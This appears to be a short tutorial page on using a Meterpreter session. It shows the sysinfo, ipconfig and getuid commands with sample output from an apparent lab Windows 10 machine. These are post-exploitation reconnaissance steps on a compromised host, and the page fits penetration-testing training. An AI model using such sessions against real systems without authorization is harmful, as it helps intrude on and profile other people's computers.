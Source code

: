 ## Using Meterpreter

### To display the target system information, such as computer name, OS and so on, type:<br>
`sysinfo`
```
meterpreter > sysinfo
Computer        : DESKTOP-ICB2IQ4
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### To view IP address, MAC address and so on, type:<br>
`ipconfig`
```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  3
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:f8:e8:ec
MTU          : 1500
IPv4 Address : 10.0.2.15
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::b8c2:616d:b6a1:1f4e
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

### To get the user that the server is running as, type:<br>
`getuid`
```
meterpreter > getuid
Server username: DESKTOP-ICB2IQ4\dummy
```
